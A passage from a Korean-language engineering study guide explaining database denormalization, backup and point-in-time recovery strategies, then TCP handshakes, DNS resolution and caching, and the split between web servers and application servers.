- **해결**: 이행 종속을 유발하는 `(학과코드, 학과사무실위치)`를 별도의 `학과` 테이블로 분리합니다.

#### 보이스-코드 정규형 (BCNF: Boyce-Codd Normal Form)
- **원칙**: 제3정규형을 만족하고, 테이블 내의 **모든 결정자(Determinant)가 반드시 후보키(Candidate Key)**여야 합니다.
- **개념**: 한 테이블에 여러 후보키가 존재하고 서로 중첩될 때 발생합니다. 후보키가 아닌 일반 컬럼이 다른 컬럼을 결정하고 있다면 이를 분리해야 합니다.

---

### 4. 성능을 위한 반정규화(De-normalization / 역정규화)

이론적으로는 3NF나 BCNF까지 정규화를 완료하는 것이 가장 이상적입니다. 하지만 실무 시스템에서 극단적으로 정규화를 진행하면 다음과 같은 심각한 성능 저하가 발생합니다.

> **과도한 정규화의 함정: JOIN 폭탄과 CPU/IO 고갈**  
> 고객의 주문 내역 화면 하나를 보여주기 위해 `주문`, `고객`, `배송지`, `주문상세`, `상품`, `카테고리`, `쿠폰`, `결제` 등 8개 이상의 테이블을 다중 조인(Multi-way JOIN)해야 한다면, 데이터가 수백만 건을 넘어설 때 데이터베이스는 기하급수적인 CPU 부하와 디스크 랜덤 I/O를 감당하지 못하고 다운됩니다.

**반정규화(De-normalization)**는 데이터 무결성을 약간 양보하는 대신, **시스템의 조회 성능(Throughput)을 비약적으로 끌어올리기 위해 의도적으로 중복, 통합, 분리를 적용하는 엔지니어링 기법**입니다.

```mermaid
flowchart TD
    DeNorm["실전 반정규화 4대 기법"]
    
    DeNorm --> Col1["1. 중복 컬럼 추가<br/>자주 조인되는 부모 컬럼을 자식 테이블에 복제<br/>(예: 주문상세 테이블에 상품명 중복 저장 -> 상품 JOIN 제거)"]
    DeNorm --> Col2["2. 파생 / 집계 컬럼 추가<br/>매번 COUNT/SUM 연산하는 비용 절감<br/>(예: 게시글 테이블에 '댓글 수(comment_count)' 컬럼 유지)"]
    DeNorm --> Table1["3. 테이블 수직 분할 (Vertical Partitioning)<br/>자주 쓰는 기본 컬럼과 거의 안 쓰는 대용량 텍스트/BLOB 분리<br/>(예: 회원 기본 정보 vs 회원 장문의 자기소개/이력서 분리)"]
    DeNorm --> Table2["4. 테이블 수평 분할 (Horizontal Partitioning)<br/>동일 스키마 데이터를 기간별/지역별로 물리 분할<br/>(예: 2026년 결제 테이블, 2025년 결제 테이블 파티셔닝)"]
```

> **⚠️ 반정규화의 대가: 데이터 정합성 유지 비용**  
> 반정규화는 공짜 점심이 아닙니다. 중복 컬럼(`상품명`)을 두면 원본 상품명이 변경될 때 수십만 건의 주문상세 데이터도 일괄 업데이트해야 하는 동기화 비용이 발생합니다. 따라서 반정규화는 **"조회 빈도가 쓰기 빈도보다 압도적으로 높고(Read Heavy), 인덱스나 캐싱으로도 성능 해결이 불가능한 병목 구간"**에 한하여 제한적으로 적용해야 합니다.

---

## (+) 데이터베이스 백업은 왜 중요한가요?
> **재해 복구(DR)의 최후 보루, 물리 백업 vs 논리 백업, 3대 백업 전략 비교 및 RPO/RTO 지표와 시점 복구(PITR)**

"세상에는 두 종류의 엔지니어가 있습니다. 백업을 하고 있는 엔지니어와, 아직 처절한 데이터 유실을 경험해보지 못한 엔지니어입니다." 하드웨어 디스크는 언제든 망가질 수 있고, 랜섬웨어는 언제든 침투할 수 있으며, 사람이 작성한 배포 스크립트나 실수로 실행한 `DELETE FROM user;` 한 줄은 기업의 존폐를 가릅니다. 백업은 데이터베이스의 생명줄입니다.

---

### 1. 백업의 근본 목적과 재해 복구(Disaster Recovery)

데이터베이스 백업은 단순한 파일 복사가 아닙니다. 서비스 운영 중 발생할 수 있는 모든 형태의 치명적 사고로부터 비즈니스를 영속시키는 **재해 복구(DR: Disaster Recovery)**의 핵심 축입니다.

1. **인적 오류(Human Error) 구제**: 가장 흔한 데이터 유실 원인은 DBA나 개발자의 실수(`WHERE` 절 없는 `UPDATE`/`DELETE` 실행, 잘못된 마이그레이션 스크립트 실행)입니다.
2. **랜섬웨어 및 악의적 침해 대응**: 해커가 데이터베이스를 암호화하거나 인질로 잡았을 때 유일한 해결책은 감염 직전의 클린 백업본으로 복원하는 것입니다.
3. **하드웨어 및 인프라 물리 재해**: 데이터센터 화재, 전력 공급 중단, 디스크 컨트롤러 고장 시 새로운 하드웨어에 데이터를 즉각 복구해야 합니다.

---

### 2. 백업 방식 분류 1: 물리 백업 vs 논리 백업

백업을 어떤 포맷으로 추출하는가에 따라 물리 백업과 논리 백업으로 나뉩니다.

```mermaid
flowchart TD
    subgraph Logical["1. 논리 백업 (Logical Backup)"]
        L1[DB 쿼리 엔진] -->|SELECT 실행| L2[SQL 텍스트 파일 생성<br/>CREATE TABLE...<br/>INSERT INTO... VALUES...]
    end

    subgraph Physical["2. 물리 백업 (Physical Backup)"]
        P1[OS 스토리지 엔진] -->|바이트 블록 직접 복사| P2[물리 데이터 파일 그대로 복제<br/>.ibd, Tablespace, LSN 블록<br/>+ Redo / WAL 로그]
    end
```

| 비교 항목 | 논리 백업 (Logical Backup) | 물리 백업 (Physical Backup) |
| :--- | :--- | :--- |
| **추출 도구** | `mysqldump`, `pg_dump`, `mydumper` | Percona XtraBackup, `pg_basebackup`, 스토리지 스냅샷 |
| **저장 포맷** | **SQL 텍스트 파일** (DDL + INSERT 구문) | **바이너리 원본 데이터 파일** (OS 레벨 파일) |
| **백업 속도** | 느림 (모든 데이터를 쿼리로 읽어 텍스트로 직렬화) | **매우 빠름** (디스크 블록을 바이트 단위로 직접 복사) |
| **복구 속도** | 매우 느림 (수억 건의 INSERT SQL을 엔진이 일일이 재실행) | **초고속** (데이터 파일을 원래 디렉토리에 복사 후 기동) |
| **호환성** | **극상** (이종 OS, 다른 DB 마이너 버전, 텍스트 편집 가능) | 낮음 (동일한 OS, 동일한 DBMS 버전/아키텍처 간에만 가능) |
| **실무 권장** | 데이터 크기가 수십 GB 이하인 소규모 DB | **수백 GB ~ 수십 TB 이상의 엔터프라이즈 프로덕션 DB** |

---

### 3. 백업 방식 분류 2: 백업 주기에 따른 3대 전략

백업을 수행하는 주기에 따라 전체 백업, 증분 백업, 차등 백업으로 나뉩니다.

```mermaid
flowchart TD
    subgraph Full["전체 백업 (Full Backup)"]
        F1["일요일: 전체 데이터 백업 (100GB)"]
    end

    subgraph Diff["차등 백업 (Differential Backup)"]
        D1["월요일: 일요일 이후 변경분 백업 (10GB)"]
        D2["화요일: 일요일 이후 변경분 백업 (20GB)"]
        D3["수요일: 일요일 이후 변경분 백업 (30GB)"]
    end

    subgraph Inc["증분 백업 (Incremental Backup)"]
        I1["월요일: 일요일 대비 변경분 (10GB)"]
        I2["화요일: 월요일 대비 변경분 (10GB)"]
        I3["수요일: 화요일 대비 변경분 (10GB)"]
    end
```

1. **전체 백업 (Full Backup)**
   - 데이터베이스의 모든 데이터를 통째로 백업합니다.
   - **장점**: 복구 시 오직 이 백업본 하나만 밀어 넣으면 되므로 복구 절차가 가장 간단하고 신속합니다.
   - **단점**: 백업할 때마다 막대한 시간과 스토리지 디스크 용량을 소모합니다.
2. **증분 백업 (Incremental Backup)**
   - **'직전 백업(전체 백업 또는 이전 증분 백업)' 이후 변경된 데이터만** 백업합니다.
   - **장점**: 백업 소요 시간과 백업 파일 용량이 가장 작습니다.
   - **단점**: 수요일 데이터로 복구하려면 `일요일(Full) + 월요일(Inc) + 화요일(Inc) + 수요일(Inc)` 백업본을 순서대로 하나도 빠짐없이 모두 적용해야 합니다. 중간에 화요일 백업본 하나만 깨져도 수요일 상태로 복구할 수 없습니다.
3. **차등 백업 (Differential Backup)**
   - **'마지막 전체 백업' 이후 변경된 모든 데이터를 누적하여** 백업합니다.
   - **장점**: 복구할 때 `일요일(Full) + 복구 직전의 최신 차등 백업 1개`만 있으면 복원되므로 증분 백업보다 복구가 훨씬 빠르고 안전합니다.
   - **단점**: 일요일 전체 백업 이후 시간이 지날수록 백업 용량이 점점 커집니다.

---

### 4. 재해 복구의 2대 절대 지표: RPO와 RTO

DBA와 인프라 아키텍트가 재해 복구 계획을 수립할 때 경영진과 반드시 합의해야 하는 두 가지 핵심 지표가 있습니다.

```mermaid
flowchart LR
    subgraph Timeline["시간 흐름과 재해 복구 지표"]
        direction LR
        Past["정기 백업 시점<br/>(14:00)"] --- Disaster["[치명적 재해 발생!]<br/>(14:35)"]
        Disaster --- Recovered["서비스 완전 정상화<br/>(15:05)"]
    end

    Past -.->|35분간 데이터 손실<br/>= RPO 지표| Disaster
    Disaster -.->|복구 소요 30분<br/>= RTO 지표| Recovered
```

1. **RPO (Recovery Point Objective, 목표 복구 시점)**
   - **"재해 발생 시 감당할 수 있는 최대 데이터 유실 허용 시간"**입니다.
   - "우리의 RPO는 1시간이다" → 백업 주기가 1시간이므로 재해가 나면 최대 1시간 전 데이터로 복원되며, 최근 1시간 치 데이터는 유실됨을 감수한다는 뜻입니다.
   - 금융 시스템의 RPO 목표는 통상 **0초(단 1건의 결제 유실도 불허)**이며, 이를 위해 다중 데이터센터 간 동기식 복제(Sync Replication)를 구축합니다.
2. **RTO (Recovery Time Objective, 목표 복구 시간)**
   - **"재해가 발생한 순간부터 시스템을 다시 정상 가동할 때까지 걸리는 최대 허용 시간"**입니다.
   - "우리의 RTO는 30분이다" → 서버가 불타도 30분 이내에는 백업본 복원과 DNS 스위치오버를 완료하여 서비스를 재개해야 한다는 뜻입니다.

> **💡 RPO/RTO와 비용(Cost)의 기하급수 곡선**  
> RPO와 RTO를 0에 가깝게 줄이려 할수록 인프라 구축 비용은 선형이 아니라 기하급수적으로 폭증합니다. 비즈니스의 중요도(미션 크리티컬 여부)에 따라 적절한 RPO/RTO 수준을 산정하는 것이 아키텍트의 역량입니다.

---

### 5. 마법 같은 정밀 복구: 시점 복구(PITR: Point-In-Time Recovery)

"오늘 오후 2시 14분 35초에 신입 개발자가 실수로 운영 DB의 고객 테이블을 DROP했습니다!"  
이때 어제 밤 12시 전체 백업본으로 복원하면 오늘 오전에 결제된 수만 건의 데이터가 함께 날아갑니다. 어떻게 해야 할까요? 바로 **시점 복구(PITR: Point-In-Time Recovery)** 기술을 사용합니다.

```mermaid
flowchart LR
    FullBkp["1. 가장 최근 전체 백업 복원<br/>(어제 밤 00:00 시점 베이스라인)"] --> BinlogReplay["2. WAL / Binlog 순차 롤포워드 (Replay)<br/>(00:00:01 ~ 14:14:34 까지의 모든 SQL 재생)"]
    BinlogReplay --> StopRightBefore["3. 사고 직전 1초에서 재생 중단!<br/>(14:14:35 DROP TABLE 명령 직전 멈춤!)"]
    StopRightBefore --> PerfectDB["완벽한 데이터 복원 완료!<br/>(유실 데이터: 0건)"]
```

#### PITR의 동작 메커니즘
1. **베이스라인 복원**: 사고 시점 직전의 가장 최신 전체 백업(Full Backup, 예: 어제 밤 12시)을 임시 서버에 복원합니다.
2. **트랜잭션 로그 확보**: 백업 시점부터 사고 발생 순간까지 데이터베이스에 기록된 모든 변경 내역인 **바이너리 로그(MySQL Binlog)** 또는 **WAL(PostgreSQL Write-Ahead Log)**을 가져옵니다.
3. **롤포워드(Roll-Forward)와 정밀 타겟팅**: 트랜잭션 로그를 순서대로 재생(Replay)하다가, 사고를 유발한 치명적인 쿼리(`DROP TABLE`)의 정확한 타임스탬프(또는 트랜잭션 번호 LSN/GTID) 바로 직전인 **`2026-09-20 14:14:34`**에서 로그 재생을 정확히 중단합니다.
4. **결과**: 단 1초의 오차도 없이 사고 발생 직전 상태로 데이터를 100% 온전하게 되살려 냅니다.

---

## 💡 PART 07 총정리: 엔지니어가 기억해야 할 데이터베이스 원칙 5계명

1. **데이터의 무결성은 타협할 수 없다**: 파일 시스템의 혼돈에서 벗어나게 해 준 RDBMS의 키(PK/FK)와 제약조건을 신뢰하고, 애플리케이션 이전에 데이터베이스 계층에서 일차적인 정합성을 수호하십시오.
2. **트랜잭션의 ACID를 이해하고 격리 수준을 현명하게 선택하라**: 비즈니스에 맞는 격리 수준(대부분 READ COMMITTED 또는 REPEATABLE READ)을 선택하고, MVCC의 동작 원리를 파악하여 락 병목 없는 동시성을 설계하십시오.
3. **인덱스는 양날의 검이다**: 카디널리티가 높은 컬럼에 인덱스를 걸고 좌변 가공을 금지하되, CUD 오버헤드와 페이지 분할을 항상 경계하며 `EXPLAIN`으로 실행 계획을 상시 검증하십시오.
4. **계층 간의 경계를 엄격히 지켜라**: 앱과 DB의 직통 연동을 원천 금지하고, 3-Tier 아키텍처와 커넥션 풀(HikariCP)을 통해 보안성과 수평 확장성을 철저히 확보하십시오.
5. **백업 없는 데이터는 존재하지 않는 데이터다**: 물리/논리 백업의 장단점을 파악하고, 명확한 RPO와 RTO 기준 아래 주기적인 PITR 시점 복원 훈련을 실전처럼 수행하십시오.


---

# PART 08. 네트워크 기술 (Network & Web Protocols)

> **"네트워크는 컴퓨터와 컴퓨터가 나누는 정교한 대화의 예술입니다."**  
> 오늘날 우리가 구축하는 거의 모든 소프트웨어는 네트워크라는 거대한 그물망 위에서 동작합니다. 프론트엔드 브라우저에서 버튼을 하나 누르는 순간, 보이지 않는 곳에서는 수천 킬로미터 떨어진 데이터센터와 수십 번의 신호가 교환되며, 보안 검증과 패킷 라우팅, 데이터베이스 트랜잭션이 유기적으로 맞물려 돌아갑니다.  
> 이번 파트에서는 클라이언트와 서버가 연결을 맺는 기초적인 패킷 교환부터, 도메인 해석, 웹 서버와 WAS의 분업, 캐시 전략, HTTP 프로토콜의 눈부신 진화, 브라우저 렌더링 파이프라인, 그리고 최신 인증 메커니즘과 실시간 통신 기술까지 현업 엔지니어가 반드시 갖추어야 할 네트워크의 모든 핵심 원리를 명쾌하고 깊이 있게 해설합니다.

---

## 01. 클라이언트 서버 통신은 어떻게 되나요?
> **요청(Request)과 응답(Response), 3-Way Handshake 연결 수립 및 4-Way Handshake 종료 과정**

우리가 매일 사용하는 웹 브라우저, 모바일 앱, 그리고 백엔드 API 서버는 모두 **클라이언트-서버(Client-Server) 모델**을 기반으로 상호작용합니다. 서비스를 이용하려는 주체(클라이언트)가 먼저 말을 걸고, 서비스를 제공하는 주체(서버)가 이에 알맞은 결과를 건네주는 구조입니다. 

하지만 무선 전파와 광케이블을 통해 전 세계로 오가는 전기적 신호는 언제든 유실되거나 지연될 위험이 있습니다. 그렇다면 인터넷은 어떻게 이 불안정한 물리적 환경 속에서도 한 글자의 오차도 없이 신뢰할 수 있는 통신을 보장할 수 있을까요? 그 비밀은 바로 **TCP(Transmission Control Protocol)**의 정교한 연결 제어 메커니즘인 **3-Way Handshake**와 **4-Way Handshake**에 있습니다.

---

### 1.1 클라이언트의 요청(Request)과 서버의 응답(Response)

클라이언트-서버 통신의 가장 기본적인 추상화 계층은 **'요청-응답(Request-Response)'** 사이클입니다.

```mermaid
sequenceDiagram
    autonumber
    actor Client as 클라이언트 (Browser/App)
    participant Server as 서버 (Web Server / WAS)

    Client->>Server: 1. 요청 전송 (HTTP Request: 자원 요청, 데이터 전송 등)
    Note over Server: 요청 파싱, 인증/인가, 비즈니스 로직 수행, DB 조회
    Server-->>Client: 2. 응답 반환 (HTTP Response: 상태 코드, 헤더, 데이터 본문)
    Note over Client: 응답 데이터 파싱 및 UI 렌더링
```

1. **클라이언트의 요청(Request)**: 사용자의 행동(URL 입력, 버튼 클릭 등)에 의해 트리거되며, 목적지 서버의 IP 주소와 포트 번호, 그리고 요청하고자 하는 자원(URI), 메서드(GET, POST 등), 부가 메타데이터(헤더)를 패킷에 담아 보냅니다.
2. **서버의 응답(Response)**: 서버는 특정 포트에서 대기(Listen)하고 있다가 클라이언트의 요청이 도달하면 이를 수신하여 해석합니다. 내부 비즈니스 로직과 데이터베이스 트랜잭션을 처리한 뒤, 그 결과와 상태 코드(200 OK, 404 Not Found 등)를 포함한 응답을 클라이언트로 되돌려 보냅니다.

이러한 상위 계층(HTTP 등)의 대화가 이루어지기 위해서는, 밑바닥 전송 계층(Transport Layer)에서 두 컴퓨터 간의 **가상 회선(Virtual Circuit)**이 먼저 안전하게 수립되어야 합니다. 이것이 바로 TCP 연결입니다.

---

### 1.2 신뢰성 있는 연결 수립: TCP 3-Way Handshake

TCP는 데이터를 주고받기 전에 양 종단(End-to-End) 시스템 간에 데이터 전송 준비가 완료되었음을 상호 확인하는 절차를 거칩니다. 악수를 세 번 나눈다는 뜻에서 **3-Way Handshake**라고 부릅니다.

이 과정에서 핵심은 서로의 존재를 확인하는 것뿐만 아니라, 향후 패킷 순서를 맞추고 분실 여부를 판별하기 위한 **초기 순서 번호(ISN: Initial Sequence Number)**를 안전하게 동기화(SYN)하는 것입니다.

```mermaid
sequenceDiagram
    autonumber
    participant C as 클라이언트 (Client)
    participant S as 서버 (Server)

    Note over C: CLOSED
    Note over S: LISTEN (대기 상태)

    C->>S: [Step 1] SYN (Seq = X)
    Note over C: SYN_SENT
    Note over S: SYN_RCVD

    S->>C: [Step 2] SYN + ACK (Seq = Y, Ack = X + 1)
    Note over C: ESTABLISHED (연결 완료)

    C->>S: [Step 3] ACK (Seq = X + 1, Ack = Y + 1)
    Note over S: ESTABLISHED (연결 완료)

    Note over C,S: 데이터 양방향 송수신 가능 상태 진입
```

#### 세부 단계별 패킷과 소켓 상태(State) 변화
1. **[Step 1] 클라이언트 -> 서버 : SYN (Synchronize Sequence Numbers)**
   - **패킷 플래그**: `SYN=1`, `ACK=0`
   - **내용**: 클라이언트는 무작위로 생성한 자신만의 초기 순서 번호 `ISN(Client) = X`를 패킷 헤더에 담아 전송합니다.
   - **소켓 상태**: 클라이언트는 `CLOSED`에서 **`SYN_SENT`** 상태로 전이합니다. 서버는 `LISTEN` 상태에서 이 패킷을 수신하면 **`SYN_RCVD`** 상태로 전이합니다.
2. **[Step 2] 서버 -> 클라이언트 : SYN + ACK**
   - **패킷 플래그**: `SYN=1`, `ACK=1`
   - **내용**: 서버는 클라이언트의 연결 요청을 수락하며, 클라이언트의 번호 `X`를 잘 받았다는 확인 응답으로 `Ack = X + 1`을 설정합니다. 동시에 서버 자신도 고유한 초기 순서 번호 `ISN(Server) = Y`를 실어 보냅니다.
   - **소켓 상태**: 패킷을 보낸 서버는 계속 `SYN_RCVD` 상태를 유지합니다. 패킷을 수신한 클라이언트는 서버의 송수신 능력을 확인했으므로 **`ESTABLISHED`** 상태로 전환됩니다.
3. **[Step 3] 클라이언트 -> 서버 : ACK (Acknowledgment)**
   - **패킷 플래그**: `SYN=0`, `ACK=1`
   - **내용**: 클라이언트는 서버의 번호 `Y`를 잘 받았음을 알리기 위해 `Ack = Y + 1`, 자신의 순서 번호 `Seq = X + 1`을 담아 마지막 응답을 보냅니다.
   - **소켓 상태**: 이 패킷을 수신한 서버 역시 **`ESTABLISHED`** 상태로 전환되며, 양방향 전이중(Full-Duplex) 통신 채널이 완전히 열립니다.

> **Q. 왜 2번이 아니라 반드시 3번의 악수(3-Way)를 해야 할까요?**  
> TCP 통신은 양방향(양쪽 모두 송신자이자 수신자)입니다.  
> - 1단계(SYN)로 서버는 **클라이언트의 송신 능력**과 **자신의 수신 능력**을 확인합니다.  
> - 2단계(SYN+ACK)로 클라이언트는 **자신의 송수신 능력**과 **서버의 송수신 능력**을 모두 확인합니다.  
> - 하지만 만약 여기서 끝난다면, 서버는 **자신이 보낸 SYN 패킷이 클라이언트에게 온전히 닿았는지(자신의 송신 능력과 클라이언트의 수신 능력)**를 알 수 없습니다. 따라서 클라이언트가 마지막 3단계(ACK)를 전송해 주어야만 서버도 비로소 클라이언트의 수신 준비를 확신할 수 있습니다.

---

### 1.3 안전하고 우아한 연결 종료: TCP 4-Way Handshake

데이터 송수신이 모두 끝났다면 연결을 즉시 끊어버리는 것이 아니라, 아직 네트워크망을 떠돌고 있을지 모르는 잔여 패킷을 모두 수신하고 양측의 버퍼를 깔끔하게 비우는 **우아한 종료(Graceful Teardown)** 절차를 거칩니다. 이때는 네 단계의 패킷 교환이 일어납니다.

```mermaid
sequenceDiagram
    autonumber
    participant C as 클라이언트 (종료 요청자)
    participant S as 서버 (종료 수신자)

    Note over C,S: ESTABLISHED

    C->>S: [Step 1] FIN (Seq = U)
    Note over C: FIN_WAIT_1
    Note over S: CLOSE_WAIT

    S->>C: [Step 2] ACK (Ack = U + 1)
    Note over C: FIN_WAIT_2
    Note over S: 남은 버퍼 데이터 전송 및 애플리케이션 정리

    S->>C: [Step 3] FIN (Seq = V, Ack = U + 1)
    Note over S: LAST_ACK
    Note over C: TIME_WAIT (2MSL 동안 대기)

    C->>S: [Step 4] ACK (Ack = V + 1)
    Note over S: CLOSED

    Note over C: 타이머 만료 후 CLOSED
```

#### 세부 단계별 절차와 핵심 상태 분석
1. **[Step 1] 클라이언트 -> 서버 : FIN (Finish)**
   - 연결을 종료하고자 하는 주체(여기서는 클라이언트)가 더 이상 보낼 데이터가 없음을 알리기 위해 `FIN` 플래그를 설정하여 전송하고, 상태를 **`FIN_WAIT_1`**으로 바꿉니다.
2. **[Step 2] 서버 -> 클라이언트 : ACK**
   - 서버는 클라이언트의 종료 요청을 확인하고 `ACK` 패킷을 전송합니다. 서버는 자신의 상태를 **`CLOSE_WAIT`**로 바꾸고, 클라이언트는 이 ACK를 받아 **`FIN_WAIT_2`** 상태가 됩니다.
   - **반연결(Half-Close) 상태**: 클라이언트가 서버로 가는 송신 스트림은 닫혔지만, 서버가 클라이언트로 데이터를 보내는 스트림은 여전히 열려 있습니다. 서버는 미처 다 보내지 못한 잔여 데이터를 마저 전송합니다.
3. **[Step 3] 서버 -> 클라이언트 : FIN**
   - 모든 비즈니스 로직과 데이터 송신을 끝낸 서버는 비로소 자신도 연결을 종료하겠다는 의미로 `FIN` 패킷을 보내고 **`LAST_ACK`** 상태가 됩니다.
4. **[Step 4] 클라이언트 -> 서버 : ACK 및 TIME_WAIT**
   - 클라이언트는 서버의 FIN에 대한 확인 응답으로 `ACK`를 보내고, 즉시 소켓을 파기하는 것이 아니라 **`TIME_WAIT`** 상태로 진입합니다.
   - 서버는 이 마지막 ACK를 수신하고 소켓을 즉시 **`CLOSED`**합니다. 클라이언트는 일정 시간(일반적으로 2MSL, 약 1~4분)이 경과한 뒤 소켓을 닫습니다.

> **중요: TIME_WAIT 상태는 왜 필수적일까요?**  
> 1. **마지막 ACK 유실 대비**: 클라이언트가 보낸 4단계 ACK가 네트워크 혼잡으로 유실되면, 서버는 FIN을 재전송합니다. 만약 클라이언트가 이미 CLOSED 상태라면 서버의 재전송 FIN에 대해 `RST(Reset)` 에러를 뿜게 되어 비정상 종료가 발생합니다.  
> 2. **지연 패킷 충돌 방지**: 이전 연결에서 전송되었으나 라우터의 병목 등으로 심하게 지연된 패킷(Duplicate/Lost Segment)이 뒤늦게 도착했을 때, 새롭게 열린 동일 포트의 소켓으로 흘러 들어가 데이터가 오염되는 것을 방지합니다. 네트워크 상의 패킷 수명인 MSL(Maximum Segment Lifetime)의 2배 동안 기다려 잔여 패킷이 자연 소멸되도록 보장합니다.

---

## 02. 도메인 주소는 어떻게 실제 서버를 찾아가나요?
> **DNS(Domain Name System) 계층 구조, 재귀적 질의(Recursive Query) 흐름, Hosts 파일과 로컬 캐시**

인터넷에 연결된 모든 기기는 숫자로 이루어진 **IP 주소(예: `142.250.196.110`)**를 통해 서로를 식별하고 라우팅합니다. 하지만 인간이 수많은 웹사이트의 복잡한 숫자 조합을 외우기는 불가능에 가깝습니다. 그래서 우리는 `www.google.com`, `naver.com` 같은 직관적인 문자열인 **도메인 네임(Domain Name)**을 사용합니다.  

이 문자열 형태의 도메인을 실제 통신 가능한 IP 주소로 상호 변환해 주는 전 지구적 분산 데이터베이스 시스템이 바로 **DNS(Domain Name System)**입니다.

---

### 2.1 DNS의 계층형 트리 구조 (Hierarchical Tree Structure)

DNS는 단일 중앙 서버가 전 세계 수십억 개의 도메인을 관리하지 않습니다. 만약 단일 서버 구조였다면 트래픽 폭주로 인한 병목(Single Point of Failure)이 발생해 전 세계 인터넷이 일순간에 마비되었을 것입니다. 대신 DNS는 **역트리(Inverted Tree)** 형태의 철저한 분산 계층 구조를 취하고 있습니다.

```
                    . (루트 도메인 : Root Domain)
                  /   |   \
              .com   .net  .kr (최상위 도메인 : TLD)
             /              \
       example.com         co.kr (차상위 도메인 : SLD / 2LD)
       /                     \
   api.example.com         naver.co.kr (책임 DNS 서버 : Authoritative DNS)
```

1. **루트 도메인 (Root Domain, `.`)**
   - 모든 도메인 주소의 가장 뒤에는 생략된 점(`.`)이 존재합니다. 전 세계에 단 13개의 논리적 루트 서버(A부터 M까지)가 있으며, 애니캐스트(Anycast) 기술을 통해 전 세계 수백 개 이상의 물리적 노드로 분산 복제되어 운영됩니다. TLD 네임서버의 IP 목록을 관리합니다.
2. **최상위 도메인 (TLD, Top-Level Domain)**
   - `.com`, `.net`, `.org`와 같은 일반 최상위 도메인(gTLD)과 `.kr`, `.jp`, `.us`와 같은 국가 코드 최상위 도메인(ccTLD)으로 나뉩니다. 해당 TLD 아래에 등록된 2차 도메인들의 책임 네임서버 주소를 관리합니다.
3. **차상위 도메인 (SLD, Second-Level Domain) 및 기관 도메인**
   - `google.com`에서의 `google`, `co.kr`에서의 `co` 등을 의미합니다.
4. **권한 있는 네임서버 (Authoritative DNS Server)**
   - 특정 도메인 영역(Zone)에 대한 최종 권한을 위임받아, 해당 도메인의 실제 IP 주소(A, AAAA 레코드), 메일 서버(MX 레코드), 서브도메인 매핑(CNAME 레코드) 등을 직접 저장하고 확정적인 응답을 내려주는 서버입니다.

---

### 2.2 도메인 해석 과정: 재귀적 질의(Recursive)와 반복적 질의(Iterative)

사용자가 브라우저에 `www.example.com`을 입력했을 때, IP를 찾아가는 실제 과정은 **재귀적 질의**와 **반복적 질의**가 조합되어 일어납니다.

- **재귀적 질의 (Recursive Query)**: "최종 IP를 찾을 때까지 대신 찾아서 나에게 알려줘!" (클라이언트 -> 로컬 DNS 리졸버)
- **반복적 질의 (Iterative Query)**: "내가 직접 모르면, 그 주소를 알고 있을 만한 다른 네임서버의 주소를 알려줄게!" (로컬 DNS 리졸버 -> 루트/TLD/책임 서버)

```mermaid
sequenceDiagram
    autonumber
    actor User as 사용자 브라우저
    participant Resolver as 로컬 DNS 리졸버 (ISP / 8.8.8.8)
    participant Root as Root DNS Server (.)
    participant TLD as TLD DNS Server (.com)
    participant Auth as Authoritative DNS (example.com)

    User->>Resolver: 1. www.example.com 의 IP는 무엇인가요? (재귀적 질의)
    
    Resolver->>Root: 2. www.example.com 의 IP를 아시나요? (반복적 질의)
    Root-->>Resolver: 3. 잘 모릅니다. .com TLD 서버로 가보세요. (TLD IP 제공)

    Resolver->>TLD: 4. www.example.com 의 IP를 아시나요? (반복적 질의)
    TLD-->>Resolver: 5. 잘 모릅니다. example.com 책임 서버로 가보세요. (Auth IP 제공)

    Resolver->>Auth: 6. www.example.com 의 IP를 아시나요? (반복적 질의)
    Auth-->>Resolver: 7. 네, A 레코드 값은 93.184.216.34 입니다. (최종 응답)

    Resolver-->>User: 8. 최종 결과: 93.184.216.34 (응답 반환 및 캐싱)
```

---

### 2.3 로컬 환경의 주소 해석 우선순위와 캐시

인터넷 트래픽을 아끼고 속도를 극대화하기 위해, 실제 컴퓨터는 모든 요청마다 위 8단계 과정을 밟지 않습니다. 엄격한 우선순위 캐시 체계를 거칩니다.

| 우선순위 | 검사 위치 | 설명 |
| :--- | :--- | :--- |
| **1단계** | **브라우저 캐시** | Chrome, Edge 등 브라우저 자체 메모리에 단기간 유지되는 캐시 (`chrome://net-internals/#dns`) |
| **2단계** | **OS DNS 캐시** | 운영체제(Windows DNS Client, macOS mDNSResponder)의 메모리 캐시 (`ipconfig /displaydns`) |
| **3단계** | **Hosts 파일** | 시스템 로컬에 위치한 정적 매핑 파일 (`C:\Windows\System32\drivers\etc\hosts` or `/etc/hosts`). **네트워크 통신 없이 무조건 최우선 적용** |
| **4단계** | **로컬 DNS 리졸버 (ISP)** | 통신사(SKT, KT, LGU+)나 공개 DNS(8.8.8.8, 1.1.1.1). 여기서 캐시 미스가 나면 비로소 전 세계 Root/TLD 질의 시작 |

> **보안 인사이트: DNS 스푸핑(Spoofing)과 TTL(Time To Live)**  
> - **TTL**: DNS 레코드가 로컬 캐시에 머무를 수 있는 유효 시간(초 단위)입니다. TTL이 너무 길면 서버 IP 이전 시 전파가 늦어지고, 너무 짧으면 DNS 서버 부하가 급증합니다.  
> - **DNS 캐시 포이즈닝**: 해커가 조작된 응답을 리졸버에 먼저 밀어 넣어 캐시를 오염시키는 공격입니다. 이를 방지하기 위해 암호화된 전자 서명 검증 체계인 **DNSSEC(DNS Security Extensions)**과 암호화 통신 프로토콜인 **DoH(DNS over HTTPS) / DoT(DNS over TLS)**가 널리 도입되고 있습니다.

---

## 03. 웹과 WAS의 역할은 어떻게 되나요?
> **Web Server(Apache, Nginx) vs WAS(Tomcat, Node.js), 둘을 분리하여 협업시키는 아키텍처적 이유**

엔터프라이즈 시스템 구축 시 가장 자주 마주치는 기본 아키텍처는 **"Web Server 앞단 + WAS 뒷단"**의 티어 분리 구조입니다. 둘 다 네트워크 요청을 받아 웹 페이지나 데이터를 전송한다는 점에서는 유사해 보이지만, 탄생 목적과 처리 메커니즘은 명확히 다릅니다.

---

### 3.1 Web Server와 WAS의 핵심 정의

```
[클라이언트 요청] ──> [ Web Server (Nginx) ] ──(정적 리소스 즉시 응답: HTML/CSS/Images)
                               │
                               └──(동적 로직 위임: API, DB 작업)──> [ WAS (Tomcat/Spring Boot) ]
```

#### 1) 웹 서버 (Web Server)
- **정의**: HTTP 프로토콜을 기반으로 클라이언트의 요청을 받아 **정적 컨텐츠(Static Contents: HTML, CSS, JavaScript 파일, 이미지, 폰트 등)**를 디스크에서 직접 읽어 응답하는 소프트웨어입니다.
- **특징**: 내부 비즈니스 로직을 연산하거나 데이터베이스와 직접 통신하지 않으며, I/O 처리에 극도로 최적화되어 있습니다.
